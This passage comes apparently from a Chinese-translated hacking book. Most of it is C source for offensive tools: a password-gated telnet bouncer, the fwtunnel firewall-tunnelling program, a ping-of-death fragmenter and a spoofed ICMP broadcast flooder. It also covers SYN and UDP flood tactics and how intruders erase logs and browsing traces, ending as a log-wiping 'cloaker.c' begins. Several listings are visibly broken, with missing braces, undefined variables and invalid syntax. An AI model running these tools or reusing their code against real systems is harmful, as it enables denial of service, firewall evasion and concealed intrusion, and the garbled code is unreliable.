/*Telnet to address/port. Hit 1x [ENTER], password,*/
/*Host and port 23 for connection.*/

char sbuf[2048], cbuf[2048];
extern int errno;
extern char *sys_errlist[];
void reaper();
int main();
```


```c
void telcli();

int main(argc, argv)
int argc;
char *argv[];
{
    int srv_fd, rem_fd, rem_len, opt = 1;
    struct sockaddr_in rem_addr, srv_addr;
    bzero((char *) &rem_addr, sizeof(rem_addr));
    bzero((char *) &srv_addr, sizeof(srv_addr));
    srv_addr.sin_family = AF_INET;
    srv_addr.sin_addr.s_addr = htonl(INADDR_ANY);
    srv_addr.sin_port = htons(SERV_TCP_PORT);
    srv_fd = socket(PF_INET, SOCK_STREAM, 0);
    if (bind(srv_fd, (struct sockaddr *) &srv_addr,
        sizeof(srv_addr)) == -1) {
        perror("bind");
        exit(-1);
    }
    listen(srv_fd, QLEN);
    close(0); close(1); close(2);
#ifdef TIOCNOTTY
    if ((rem_fd = open("/dev/tty", O_RDWR)) >= 0) {
        ioctl(rem_fd, TIOCNOTTY, (char *)0);
        close(rem_fd);
    }
#endif
    if (fork()) exit(0);
    while (1) {
        rem_len = sizeof(rem_addr);
        rem_fd=accept(srv_fd, (struct sockaddr *) &rem_addr, &rem_len);
        if (rem_fd < 0) {
            if (errno == EINTR) continue;
            exit(-1);
        }
        switch(fork()) {
            case 0:
                close(srv_fd);
                telcli(rem_fd);
                close(rem_fd);
                exit(0);
                break;
            default:
                close(rem_fd);
                if (fork()) exit(0);
                break;
            case -1:
                fprintf(stderr, "\n\rfork: %s\n\r", sys_errlist[errno]);
                break;
        }
    }
}
```

345

```c
void telcli(source)
 int source;
{
	int dest;
	int found;
	struct sockaddr_in sa;
	struct hostent *hp;
	struct servent *sp;

	char gethost[100];
	char getport[100];
	char string[100];

	bzero(gethost, 100);
	read(source, gethost, 100);
	sprintf(string, "");
	write(source, string, strlen(string));
	read(source, gethost, 100);
	gethost[strlen(gethost)-2] = '\0';/* kludge alert -
	kill the \r\n */
	if (strcmp(gethost, MY_PASS) != 0) {
		close(source);
		exit(0);
	}
	do {
		found = 0;
		bzero(gethost,100);
		sprintf(string, "telnet bouncer ready.\n");
		write(source, string, strlen(string));
		sprintf(string, "Host: ");
		write(source, string, strlen(string));
		read(source, gethost, 100);
		gethost[strlen(gethost)-2] = '\0';
		hp = gethostbyname(gethost);
		if (hp) {
			found++;
#ifdef(h_addr)	/* In 4.3, this is a #define */
#else defined(hpx) || defined(NeXT) || defined(ultrix) || defined(PO SIX)
			memcpy((caddr_t)&sa.sin_addr, hp->h_addr_list[0], hp->h_length);
#else
			bcopy(hp->h_addr_list[0], &sa.sin_addr, hp->h_length);
#endif
#else /* defined(h_addr) */
#ifdef(hpx) || defined(NeXT) || defined(ultrix) || defined(PO SIX)
		memcpy((caddr_t)&sa.sin_addr, hp->h_addr, hp->h_length);
#else
		bcopy(hp->h_addr, &sa.sin_addr, hp->h_length);
#endif
#endif /* defined(h_addr) */
		sprintf(string, "Found address for %s\n", hp->h_name);
		write(source, string, strlen(string));
	} else {
	    if (inet_addr(gethost) == -1) {
	        found = 0;
	        sprintf(string, "Didnt find address for %s\n", gethost);
	        write(source, string, strlen(string));
	    } else {
	        found++;
	        sa.sin_addr.s_addr = inet_addr(gethost);
	    }
	}
} while (!found);
sa.sin_family = AF_INET;
sprintf(string, "Port: ");
write(source, string, strlen(string));
read(source, getport, 100);
getport[strlen(getport)-2] = '\0';
sa.sin_port = htons((unsigned int)atoi(getport));
if (sa.sin_port == 0) {
    sp = getservbyname(getport, "tcp");
    if (sp)
        sa.sin_port = sp->s_port;
    else {
        sprintf(string, "%s: bad port number\n", getport);
        write(source, string, strlen(string));
        return;
    }
}
sprintf(string, "Trying %s...\n", (char *) inet_ntoa(sa.sin_addr));
write(source, string, strlen(string));
if ((dest = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
    perror("telcli: socket");
    exit(1);
}
connect(dest, (struct sockaddr *) &sa, sizeof(sa));
sprintf(string, "Connected to %s port %d... \n",
        inet_ntoa(sa.sin_addr),
        ntohs(sa.sin_port));
write(source, string, strlen(string));
#ifdef FNDELAY
    fcntl(source,F_SETFL,fcntl(source,F_GETFL,0) | FNDELAY);
    fcntl(dest,F_SETFL,fcntl(dest,F_GETFL,0) | FNDELAY);
#else
    fcntl(source,F_SETFL,O_NDELAY);
    fcntl(dest,F_SETFL,O_NDELAY);
#endif
communicate(dest,source);
close(dest);
exit(0);
}
```

347

```c
communicate(sfd,cfd){

char *head, *ctail, *shead, *stail;

int num, nfd, spos, cpos;

extern int errno;

fd_set rd, wr;

head = ctail = cbuf;
cpos = 0;
shead = stail = sbuf;
spos = 0;

while (1) {
    FD_ZERO(&rd);
    FD_ZERO(&wr);

    if (spos < sizeof(sbuf)-1) FD_SET(sfd, &rd);
    if (ctail > head) FD_SET(sfd, &wr);
    if (cpos < sizeof(cbuf)-1) FD_SET(cfd, &rd);
    if (stail > shead) FD_SET(cfd, &wr);

    nfd = select(256, &rd, &wr, 0, 0);
    if (nfd <= 0) continue;

    if (FD_ISSET(sfd, &rd)) {
        num=read(sfd,stail,sizeof(sbuf)-spos);
        if ((num==-1) && (errno != EWOULDBLOCK)) return;
        if (num==0) return;
        if (num>0) {
            spos += num;
            stail += num;
            if (!--nfd) continue;
        }
    }

    if (FD_ISSET(cfd, &rd)) {
        num=read(cfd,ctail,sizeof(cbuf)-cpos);
        if ((num==-1) && (errno != EWOULDBLOCK)) return;
        if (num==0) return;
        if (num>0) {
            cpos += num;
            ctail += num;
            if (!--nfd) continue;
        }
    }

    if (FD_ISSET(sfd, &wr)) {
        num=write(sfd,head,ctail-head);
        if ((num==-1) && (errno != EWOULDBLOCK)) return;
        if (num>0) {
            head += num;
            if (head == ctail) {
                head = ctail = cbuf;
                cpos = 0;
            }
            if (!--nfd) continue;
        }
    }

    if (FD_ISSET(cfd, &wr)) {
        num=write (cfd,shead,stail-shead);
        if ( (num==-1) && (errno != EWOULDBLOCK) ) return;
        if (num>0) {
            shead += num;
            if (shead == stail) {
                shead = stail = sbuf;
                spos = 0;
            }
            if (!--nfd) continue;
        }
    }
}
```

## 有状态过滤器

采用这种类型数据包过滤器的路由器和网关会迫使黑客通过隧道或用于从安全网络发起连接到其外部 Tiger Box（在第 6 部分中描述）的程序进行攻击。以下摘录展示了一个 IP 隧道攻击程序：

fwtunnel.c

```c
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/time.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netdb.h>
#include <fcntl.h>

#define UDP
#undef TCP
#define BUFSIZE 4096

void selectloop(int netfd, int tapfd);
void usage(void);

char buffer[BUFSIZE];

main(int ac, char *av[]) {
    int destport;
    struct sockaddr_in destaddr;
    struct hostent *ht;
    int sock;
    int daemon;
    int netfd;
    int tapfd;

    /* check for a sane number of parameters */
    if(ac != 3)
        usage();

    /* get port number, bail if atoi gives us 0 */
    if((destport = atoi(av[2])) == 0)
        usage();

    /* check if we're a daem or if we will connect. */
    if(av[1][0] == '-')
        daem = 1;
    else
        daem = 0;

    if(!daem) {
        /* resolve DNS */
        if((ht = gethostbyname(av[1])) == NULL) {
            switch(h_errno) {
                case HOST_NOT_FOUND:
                    printf("%s: Unknown host\n", av[2]);
                    break;
                case NO_ADDRESS:
                    printf("%s: No IP address for hostname\n", av[2]);
                    break;
                case NO_RECOVERY:
                    printf("%s: DNS Error\n", av[2]);
                    break;
                case TRY_AGAIN:
                    printf("%s: Try again (DNS Fuckup)\n", av[2]);
                    break;
                default:
                    printf("%s: Unknown DNS error\n", av[2]);
            }
            exit(0);
        }

        /* set up the destaddr struct */
        destaddr.sin_port = htons(destport);
        destaddr.sin_family = AF_INET;
        memcpy(&destaddr.sin_addr, ht->h_addr, ht->h_length);
    }

#ifdef TCP
    sock = socket(AF_INET, SOCK_STREAM, 0);
#endif

#ifdef UDP
    sock = socket(AF_INET, SOCK_DGRAM, 0);
#endif

    if(sock == -1) {
        perror("socket");
        exit(0);
    }

    printf("Opening network socket.\n");

    if(!daemon) {
        if(connect(sock, &destaddr, sizeof(struct sockaddr_in)) == -1) {
            perror("connect");
            exit(0);
        }
        netfd = sock;
    }
    else {
        struct sockaddr_in listenaddr;
#ifdef UDP
        struct sockaddr_in remote;
#endif
        int socklen;

        listenaddr.sin_port = htons(destport);
        listenaddr.sin_family = AF_INET;
        listenaddr.sin_addr.s_addr = inet_addr("0.0.0.0");

        if(bind(sock, &listenaddr, sizeof(struct sockaddr_in)) == -1) {
            perror("bind");
            exit(0);
        }

        socklen = sizeof(struct sockaddr_in);

#ifdef TCP
        if(listen(sock, 1) == -1) {
            perror("listen");
            exit(0);
        }

        printf("Waiting for TCP connection... \n");

        if((netfd = accept(sock, &listenaddr, &socklen)) == -1) {
            perror("accept");
            exit(0);
        }
}
#else /* TCP */
        netfd = sock;
        recvfrom(netfd, buffer, BUFSIZE, MSG_PEEK, &remote, &socklen);
        connect(netfd, &remote, socklen);
#endif
    }
}
```

350

351


```c
#endif
}
/* 好的，现在，我们将 netfd 设置为某个值，
   我们可以用它来与网络进行通信。 */

printf("正在打开 /dev/tap0\n");

tapfd = open("/dev/tap0", O_RDWR);
if(tapfd == -1) {
  perror("tapfd");
  exit(0);
}

selectloop(netfd, tapfd);

return 0;
}

void selectloop(int netfd, int tapfd) {

  fd_set rfds;
  int maxfd;
  int len;

  if(netfd > tapfd)
    maxfd = netfd;
  else
    maxfd = tapfd;

  while(1) {

    FD_ZERO(&rfds);
    FD_SET(netfd, &rfds);
    FD_SET(tapfd, &rfds);

    if(select(maxfd+1, &rfds, NULL, NULL, NULL) == -1) {
      perror("select");
      exit(0);
    }

    if(FD_ISSET(netfd, &rfds)) {
      FD_CLR(netfd, &rfds);

      if((len = read(netfd, buffer, BUFSIZE)) < 1) {
        if(len == -1)
          perror("read_netfd");
        printf("netfd 已断开，退出\n");
        close(tapfd);

        exit(0);
      }

      printf("从网络收到 %d 字节\n", len);
      write(tapfd, buffer, len);
      continue;
    }
    if(FD_ISSET(tapfd, &rfds)) {
      FD_CLR(tapfd, &rfds);
      if((len = read(tapfd, buffer, BUFSIZE)) < 1) {
        if(len == -1)
          perror("read_tapfd");
        printf("tapfd 已断开，退出\n");
        shutdown(netfd, 2);
        close(netfd);
        exit(0);
      }
      printf("从接口收到 %d 字节\n", len);
      write(netfd, buffer, len);
      continue;
    }
  }  /* 循环结束 */
}
void usage(void) {
    printf("参数错误。\n");
    exit(0);
}
```

```c
/* fwtunnel 使用 ethertap 来封装一个地址
   fwtunnel <主机 | - > <端口>
   第一个参数是要连接的主机名，或者，
   如果你是作为监听端的主机，则为一个 -。显然，
   防火墙内部的系统提供主机名，而外部系统
   提供 -。
   双方都必须指定一个端口号……   显然，
   两端的端口号应该相同……
   */
   /* 对于 Linux --
   首先，你需要一个 2.1 后期的内核。
   在“网络选项”部分，开启：
   “内核/用户 netlink 套接字”
   以及，就在其下方，
   “Netlink 设备仿真”

   另外，在“网络设备支持”部分，开启：
   “Ethertap 网络 tap”

   如果这些被编译进内核，你的内核就配置好了。 */

/* 配置 ethertap 设备 --

   首先，需要存在必要的 /dev 文件，所以运行：
   mknod /dev/tap0 c 36 16

   以创建该文件。

   接下来，你必须 ifconfig 配置 ethertap 设备，所以选择一个
   你要用于该设备的子网。在这个例子中，我们将使用
   网络 192.168.1.0，一侧为 192.168.1.1，另一侧
   为 192.168.1.2…… 所以，你需要执行：

   ifconfig tap0 192.168.1.1(或 .2) mtu 1200

   2.1 内核应该会自动创建所需的路由，因此
   这不应该是个问题。

   */
```

353

另一种流行且简单的绕过状态过滤器的方法是无影 FTP（文件 winftp.exe）。当该守护进程运行时，它不会显示任何内容，因为它执行 FTP 服务并监听 21 端口，任何 FTP 客户端都可以连接该端口。该程序通常被附加在垃圾邮件中，并伪装成笑话。一旦执行，对任何匿名黑客而言，完整的上传和下载控制权即处于激活状态。

# 代理与应用网关

大多数具有安全策略的公司允许内部用户浏览网页。来自地下黑客界的一条经验法则是，通过攻击最弱的一环——代理或端口号——来突破防火墙。黑客利用反向 HTTP Shell 来利用这一标准策略，从而通过该连接流反向访问内部网络。这种攻击方法的一个 Perl 示例是 Van Hauser（*hacker’s choice: the pimmuel.com* 的主席）的 *rwshshell-1.6.perl* 脚本。

354

## 关于工作站的说明

通常伪装成笑话、软件下载和友好邮件附件，远程访问后门使大多数工作站变得极其脆弱。无论是在家、办公室还是数据中心，桌面系统都很容易被植入远程功能，包括：完整的文件传输访问、应用控制、系统进程控制、桌面控制、音频控制、垃圾邮件发送，甚至显示器控制。诸如 Back Orifice 和 NetBus 之类的后门套件因其广泛传播而获得了大量的媒体关注。大多数内存、应用程序和磁盘扫描器都包含有助于检测这些守护进程的模块；尽管如此，仍有数以百计的变种以及其他远程访问工具在四处流传，可能正悄然潜伏在你的系统中，而你正在阅读这些文字时，它们仍可能藏在你的系统里。显然，这是一个持续令人担忧的领域。

## 泛洪攻击

对于网络接口绑定 TCP/IP 协议和/或通过拨号或直连方式连接到互联网的系统，当出现如下错误信息时，部分或全部网络服务可能变得不可用：

> “连接已丢失或重置。”

这种类型的错误信息通常是被称为泛洪的恶意渗透攻击的症状。前述示例涉及 SYN 攻击，黑客可以针对整台机器或特定的 TCP 服务（如 HTTP（80 端口）Web 服务）。该攻击针对的是所有互联网计算机使用的 TCP 协议；尽管它并非特指 Windows NT 操作系统，但为了讨论目的，我们将使用此操作系统。

回想一下第 1 章中描述的 SYN-ACK（三次）握手过程：基本上，向目标或目的计算机发送一个 TCP 连接请求（SYN）以发起通信请求。数据包中的源 IP 地址被“欺骗”，即被替换为一个在互联网上未使用的地址（该地址属于另一台计算机）。攻击者发送大量的 TCP SYN 包，以耗尽目标计算机上的尽可能多的资源。收到连接请求后，目标计算机分配资源以处理和跟踪新的通信会话，然后回复“SYN-ACK”。在这种情况下，响应被发送到被欺骗或不存在的 IP 地址。结果是，没有收到对 SYN-ACK 的响应；因此，默认配置的 Windows NT 3.5x 或 4.0 计算机将重传 SYN-ACK 五次，每次重传后将超时值加倍。初始超时值为三秒，因此重传尝试分别发生在第 3、6、12、24 和 48 秒。最后一次重传后，允许 96 秒过去，然后计算机放弃等待接收响应，从而重新分配之前预留的资源。资源不可用的总耗时约为 189 秒。

如果你怀疑你的计算机正在遭受 SYN 攻击，你可以在命令提示符下输入图 8.1 中所示的 netstat 命令来查看活动连接。


**图 8.1 使用 netstat 揭示活动连接。**

如果当前有大量连接处于 SYN_RECEIVED 状态（在图 8.2 中以粗体显示），则系统可能正遭受攻击。

嗅探器（后文将描述）可用于进一步排查问题，可能需要联系下一层 ISP 协助追踪攻击者。对于大多数协议栈，处于 SYN_RECEIVED 状态的连接数量存在上限；一旦在特定端口达到该上限，目标系统将以重置包响应。这可能导致系统陷入无限忙碌状态。

必须专门修改系统配置和安全策略以防范此类攻击。统计数据显示，互联网上约 90% 的节点对此类攻击易感。如下所示，echos.c（一个回声泛洪工具）展示了这种泛洪机制的一个示例：

**活动连接**

| 协议 | 本地地址 | 外部地址 | 状态 |
| :--- | :--- | :--- | :--- |
| TCP | 172.29.44.16:80 | 192.29.27.254:1075 | SYN_RECEIVED |
| TCP | 172.29.44.16:80 | 192.29.27.254:1076 | SYN_RECEIVED |
| TCP | 172.29.44.16:80 | 192.29.27.254:1076 | SYN_RECEIVED |
| TCP | 172.29.44.16:80 | 192.29.27.254:1078 | SYN_RECEIVED |
| TCP | 172.29.44.16:80 | 192.29.27.254:1079 | SYN_RECEIVED |

**图 8.2 揭示处于 SYN-REC 状态的活动连接。**

```c
/* echos.c */
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netdb.h>
#include <netinet/in.h>
#include <netinet/in_sysm.h>
#include <netinet/ip.h>
#include <netinet/ip_icmp.h>

#ifdef REALLY_RAW
#define FIX(x) htons(x)
#else
#define FIX(x) (x)
#endif

int
main(int argc, char **argv)
{
    int s;
    char buf[1500];
    struct ip *ip = (struct ip *)buf;
    struct icmp *icmp = (struct icmp *)(ip + 1);
    struct hostent *hp;
    struct sockaddr_in dst;
    int offset;
    int on = 1;

    bzero(buf, sizeof buf);

    if ((s = socket(AF_INET, SOCK_RAW, IPPROTO_IP)) < 0) {
        perror("socket");
        exit(1);
    }
    if (setsockopt(s, IPPROTO_IP, IP_HDRINCL, &on, sizeof(on)))
```


## 代码片段

```c
    }
    if (argc != 2) {
        fprintf(stderr, "usage: %s hostname\n", argv[0]);
        exit(1);
    }

    if ((hp = gethostname(argv[1])) == NULL) {
        if ((ip->ip_dst.s_addr = inet_addr(argv[1])) == - 1) {
            fprintf(stderr, "%s: unknown host\n", argv[1]);
        }
    } else {
        bcopy(hp->h_addr_list[0], &ip->ip_dst.s_addr,
            hp->h_length);
    }
    printf("Sending to %s\n", inet_ntoa(ip->ip_dst));
    ip->ip_v = 4;
    ip->ip_hl = sizeof *ip >> 2;
    ip->ip_tos = 0;
    ip->ip_len = FIX(sizeof buf);
    ip->ip_id = htons(4321);
    ip->ip_off = FIX(0);
    ip->ip_ttl = 255;
    ip->ip_p = 1;
    ip->ip_sum = 0;               /* kernel fills in */
    ip->ip_src.s_addr = 0;        /* kernel fills in */

    dst.sin_addr = ip->ip_dst;
    dst.sin_family = AF_INET;

    icmp->icmp_type = ICMP_ECHO;
    icmp->icmp_code = 0;
    icmp->icmp_cksum = htons(~(ICMP_ECHO << 8));
    /* the checksum of all 0's is easy to compute */

    for (offset = 0; offset < 65536; offset += (sizeof buf -
        sizeof *ip)) {
        ip->ip_off = FIX(offset >> 3);
        if (offset < 65120)
            ip->ip_off |= FIX(IP_MF);
        else
            ip->ip_len = FIX(418);    /* make total 65538 */
        if (sendto(s, buf, sizeof buf, 0, (struct sockaddr
            *)&dst,
            sizeof dst) < 0) {
            fprintf(stderr, "offset %d: ", offset);
            perror("sendto");
        }
    }
    if (offset == 0) {
        icmp->icmp_type = 0;
        icmp->icmp_code = 0;
        icmp->icmp_cksum = 0;
    }
```


书中随机附带的光盘中，包含了一个 TigerSuite 模块，它是此类守护进程的编译版本，用于测试泛洪漏洞。图 8.3 展示了这个组装好的版本的图示。

*flood.c* 是一个流行的、可修改的黑客饱和泛洪工具，其功能与上述技术相当，它在这里被展示为一个伪装的 ICMP 广播泛洪程序。

## flood.c

```c
#include <sys/types.h>
#include <sys/socket.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <netdb.h>
#include <netinet/ip.h>
#include <netinet/in.h>
#include <netinet/ip_icmp.h>

#define IPHDRSIZE sizeof(struct iphdr)
#define ICMPHDRSIZE sizeof(struct icmphdr)
#define VIRGIN "1.1"

void version(void)     {
                printf("flood %s - by FA-Q\n", VIRGIN);
}
void usage(const char *progname)
{
        printf("usage: %s [-fV] [-c count] [-i wait] [-s packetsize]
<target> <broadcast>\n",progname);
}

unsigned char *dest_name;
unsigned char *spoof_name = NULL;
struct sockaddr_in destdir, spoofdir;
unsigned long dest_addr;
unsigned long spoof_addr;
unsigned pingsize, pingsleep, pingnmbr;
char flood = 0;

unsigned short in_cksum(addr, len)
    u_short *addr;
    int len;
    register int nleft = len;
    register u_short *w = addr;
    register int sum = 0;
    u_short answer = 0;

    while (nleft > 1) {
    sum += *w++;
    nleft -= 2;
    }

    if (nleft == 1) {
    *(u_char *)(&answer) = *(u_char *)w;
    sum += answer;
    }

    sum = (sum >> 16) + (sum & 0xffff);
    sum += (sum >> 16);
    answer = ~sum;
    return(answer);
}

int resolve( const char *name, struct sockaddr_in *addr, int port )
    struct hostent *host;
    bzero((char *)addr,sizeof(struct sockaddr_in));

    if (( host = gethostbyname(name) ) == NULL ) {
    fprintf(stderr,"%s will not resolve\n",name);
    perror(""); return -1;
    }

    addr->sin_family = host->h_addrtype;
    memcpy((caddr_t)&addr->sin_addr,host->h_addr,host->h_length);
    addr->sin_port = htons(port);

    return 0;
}

unsigned long addr_to_ulong(struct sockaddr_in *addr)
{
    return addr->sin_addr.s_addr;
}

int resolve_one(const char *name, unsigned long *addr, const char *descl)
{
    struct sockaddr_in tempaddr;
    if (resolve(name, &tempaddr,0) == -1) {
        printf("%s will not resolve\n",desc);
        return -1;
    }

    *addr = tempaddr.sin_addr.s_addr;
    return 0;
}

int resolve_all(const char *dest,
    const char *spoof)
{
        if (resolve_one(dest,&dest_addr,"dest address")) return -1;
        if (spoof!=NULL)
            if (resolve_one(spoof,&spoof_addr,"spoof address")) return -1;

        spoofaddr.sin_addr.s_addr = spoof_addr;
        spoofaddr.sin_family = AF_INET;
        destaddr.sin_addr.s_addr = dest_addr;
        destaddr.sin_family      = AF_INET;
}

void give_info(void)
{
    printf("attacking (%s) from (%s)\n",inet_ntoa(spoof_addr),dest_name);
}

int parse_args(int argc, char *argv[])
{
    int opt;
    char *endptr;
    while ((opt=getopt(argc, argv, "fc:s:i:V")) != -1) {
        switch(opt) {
            case 'f': flood = 1; break;
            case 'c': pingnmbr = strtoul(optarg,&endptr,10);
                    if (*endptr != '\0') {
                        printf("%s is an invalid number '%s'.\n", argv[0], optarg);
                        return -1;
                    }
                    break;
            case 's': pingsize = strtoul(optarg, &endptr, 10);
                    if (*endptr != '\0') {
                        printf("%s is a bad packet size '%s'\n", argv[0], optarg);
                        return -1;
                    }
                    break;
            case 'i': pingsleep = strtoul(optarg, &endptr, 10);
                    if (*endptr != '\0') {
                        printf("%s is a bad wait time '%s'\n", argv[0], optarg);
                        return -1;
                    }
                    break;
            case 'V': version(); break;
            case '?':
            case ':': return -1; break;
        }
    }

    if (optind > argc-2) {
        return -1;
    }

    if (!pingsize)
        pingsize = 28;
    else
        pingsize = pingsize - 36 ;

    if (!pingsleep)
        pingsleep = 100;

    spoof_name = argv[optind++];
    dest_name = argv[optind++];
    return 0;
}

inline int icmp_echo_send(int socket,
unsigned long spoof_addr,
unsigned long t_addr,
unsigned pingsize)
{
    unsigned char packet[5122];
    struct iphdr *ip;
    struct icmphdr *icmp;
    struct iphdr *origip;
    unsigned char *data;
    int i;

    ip = (struct iphdr *)packet;
    icmp = (struct icmphdr *) (packet+IPHDRSIZE);
    origip = (struct iphdr *) (packet+IPHDRSIZE+ICMPHDRSIZE);
    data = (char *)(packet+pingsize+IPHDRSIZE+IPHDRSIZE+ICMPHDRSIZE);
    memset(packet, 0, 5122);

    ip->version = 4;
    ip->ihl = 5;
    ip->ttl = 255-random()%15;
    ip->protocol = IPPROTO_ICMP;
    ip->tot_len = htons(pingsize + IPHDRSIZE + ICMPHDRSIZE + IPHDRSIZE + 8);

    bcopy((char *)&destaddr.sin_addr, &ip->daddr, sizeof(ip->daddr));
    bcopy((char *)&spoofaddr.sin_addr, &ip->saddr, sizeof(ip->saddr));

    ip->check = in_cksum(packet, IPHDRSIZE);

    origip->version = 4;
    origip->ihl = 5;
    origip->ttl = ip->ttl - random()%15;
    origip->protocol = IPPROTO_TCP;
    origip->tot_len = IPHDRSIZE + 30;
    origip->id = random()%69;

    bcopy((char *)&destaddr.sin_addr, &origip->saddr, sizeof(origip->saddr));

    origip->check = in_cksum(origip, IPHDRSIZE);

    *(unsigned int *)data = htons(pingsize);
    icmp->type = 8; /* why should this be 3? */
    icmp->code = 0;

    icmp->checksum = in_cksum(icmp, pingsize+ICMPHDRSIZE+IPHDRSIZE+8);
    return sendto(socket, packet, pingsize+IPHDRSIZE+ICMPHDRSIZE+IPHDRSIZE+8, 0, (struct sockaddr *)&destaddr, sizeof(struct sockaddr));
}

void main(int argc, char *argv[])
{
    int s, i;
    int floodloop;
    if (parse_args(argc, argv))
    {
        usage(argv[0]);
        return;
    }

    resolve_all(dest_name, spoof_name);
    give_info();

    s = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);
    if (!flood)
    {
        if (icmp_echo_send(s, spoof_addr, dest_addr, pingsize) == -1)
        {
            printf("%s error sending packet\n", argv[0]);
            perror("");
            return;
        }
    }
    else
    {
        floodloop = 0;
        if ( pingnmbr && (pingnmbr > 0) )
        {
            printf("sending...  packet limit set\n");
            for (i=0;i<pingnmbr;i++)
            {
                if (icmp_echo_send(s, spoof_addr, dest_addr, pingsize) == -1)
                {
                    printf("%s error sending packet\n", argv[0]);
                    perror("");
                    return;
                }
                usleep((pingsleep*1000));
                if (!(!floodloop = (floodloop+1)%25))
                {
                    fprintf(stdout, ".");
                    fflush(stdout);
                }
            }
            printf("\ncomplete, %u packets sent\n", pingnmbr);
        }
        else
        {
            printf("flooding,  ( . == 25 packets)\n");
            for (i=0;i<1;)
            {
                if (icmp_echo_send(s, spoof_addr, dest_addr, pingsize) == -1)
                {
                    printf("%s error sending packet\n", argv[0]);
                    perror("");
                    return;
                }
                usleep(900);
                if (!(!floodloop = (floodloop+1)%25))
                {
                    fprintf(stdout, ".");
                    fflush(stdout);
                }
            }
        }
    }
}
```

当前的泛洪技术包括追踪阻断，例如黑客高手 Zakath 编写的 *synflood.c* 中的技术。在这种攻击中，启用了随机 IP 欺骗，而不是手动输入目标源地址。该过程很简单：*srcaddr* 是数据包将被伪装来源的 IP 地址；*dstaddr* 是发送数据包的目标机器；*low* 和 *high* 端口是你


希望发送的数据包；`O` 用于随机模式，即随机 IP 欺骗。启用此功能后，源地址将表现为随机 IP 地址，而非固定地址。

在协议栈的另一端，一种 UDP 泛洪机制（深受地下黑客的推崇）使用自定义 UDP 泛洪工具 *pepsi*（如图 8.4 所示），发起针对 Windows NT 的广播（即向多个主机转发数据包）攻击。广播可以在数据链路层和网络层发生。数据链路层广播发送至连接到特定物理网络的所有主机，而网络层广播则发送至连接到特定网络的所有主机。

在此漏洞利用中，NT 会响应发送至特定子网广播地址的 UDP 段。简而言之，这意味着网络上的每台 NT 计算机都会响应带有广播地址的 UDP 段。响应本身可能会导致严重的网络拥塞——即广播“风暴”——但请考虑这种情况：如果发送至广播地址的 UDP 段中包含了目标机器本身的伪造源地址，会对机器造成什么影响？再想象一下，如果该段所发送的目的端口恰好


**图 8.4** Pepsi UDP 泛洪工具。

是端口 19（chargen 服务）。损害将是巨大的，因为该服务会输出无限循环变换起始点的字符。

## 日志破坏

本节详细阐述了使用 *日志破坏工具* 和 *擦除器* 进行 *审计跟踪编辑* 的手段，以及诸如 *反键盘记录器* 等 *痕迹编辑* 机制。

-   黑客在访问系统时使用审计跟踪编辑来“掩盖踪迹”。由于这些技术中的大多数可以完全清除系统中所有非法活动的痕迹，因此了解这些技术对于确定应查找哪些属性以避免掩盖行为至关重要。

-   在正常情况下，个人可能会使用键盘记录器来跟踪例如他们的孩子在计算机上做了什么、在互联网上浏览了什么，或者查明在他们离开时谁在使用计算机。在这种情况下，键盘记录器会记录击键，而浏览器会在硬盘上保存大量的在线活动日志。黑客出于完全相同的原因使用隐蔽键盘记录器，尤其是为了收集密码和信用卡号。

-   黑客使用日志破坏来掩盖击键痕迹，同时采用简单的程序来销毁或禁用特定文件，以防止浏览器监控活动。

## 掩盖在线痕迹

隐蔽入侵者通常删除以下文件，以隐藏 Netscape 留下的在线活动痕迹：

-   /Netscape/Users/default/cookies.txt
-   /Netscape/Users/default/netscape.hst
-   /Netscape/Users/default/prefs.js
-   /Netscape/Users/default/Cache/*.*

黑客通常可以删除这些文件而不会有任何不良并发症；然而，一些网站（如 www.microsoft.com）可能需要完整的 cookies 来执行某些功能。下次访问该网站时，可能需要通过新的 cookie 重新建立这些功能。请注意，删除 *prefs.js* 文件会移除 Netscape 的 URL 下拉列表。还会导致丢失任何默认偏好设置更改。

与 Netscape 不同，在 Windows 中，Microsoft Explorer 的缓存、历史记录和 cookie 文件通常无法被覆盖和安全删除，因为文件通常处于被使用状态。鉴于 Windows 拒绝访问这些处于使用状态的文件，黑客会为启动/关机编辑和删除操作批量执行可执行文件。目标文件包括：

-   /Windows/Tempor~1/index.dat （临时互联网文件）
-   /Windows/Cookies/index.dat （cookies）
-   /Windows/History/index.dat （访问网站的历史记录）
-   /win386.swp （交换文件）

作为一种保险措施，黑客还会在注册表中编辑 Internet Explorer 的访问站点历史记录，路径为：

`HKEY_CURRENT_USER/Software/Microsoft/Internet Explorer/TypedURLs`

黑客保留互联网浏览隐私的另一种替代方法是使用此过程禁用 Explorer 的缓存、历史记录和 cookie 文件：

1.  禁用 IE4 缓存文件夹：
    1.  在 Internet Explorer 中，选择 查看/Internet/选项/常规。
    2.  在临时 Internet 文件部分，选择 *删除文件*。
    3.  选择 Windows 开始/关机，然后以 MS-DOS 模式重新启动。
    4.  在命令提示符下，将目录更改为 /Windows/Tempor~1（输入 `cd window/tempor~1`；或者，从 /Windows 输入 `cd tempor~1`）。
    5.  输入 `dir`；dir 命令应返回一个文件的列表，名为 *index.dat*。
    6.  此文件包含所有显示在 /Windows/Temporary Internet Files 中的链接文件。现在使用以下 DOS 命令将 index.dat 文件改为只读：`attr +r index.dat`

2.  禁用 IE4 历史记录文件夹：
    1.  在 Internet Explorer 中，选择 查看/Internet/选项/常规。
    2.  在历史记录部分，将“保留页数的天数”的值更改为 0。
    3.  选择清除历史记录按钮以删除当前文件夹。
    4.  选择 Windows 开始/关机，然后以 MS-DOS 模式重新启动。

3.  在命令提示符下，将目录更改为 /Windows/History（输入 `cd window/history`；或者，从 /Windows 输入 `cd history`）。
4.  输入 `dir`；dir 命令应返回一个文件的列表，名为 *index.dat*。
5.  使用以下 DOS 命令将 *index.dat* 文件改为只读：
    ```
    attrib +r index.dat
    ```

> 本节中的命令在第 6 章的“重要命令”部分中有更详细的描述。

## 掩盖键盘记录痕迹

黑客通常使用伪装软件来完全掩盖其成功入侵后的踪迹。此类程序旨在查找并销毁日志、记录器文件、时间戳和临时文件。一个示例是 `cloaker.c`，最初由黑客大师 Wintermute 编写。下文所示的这个程序可以彻底清除在 UNIX 系统上的所有存在痕迹。

### cloaker.c

```c
#include <fcntl.h>
#include <utmp.h>
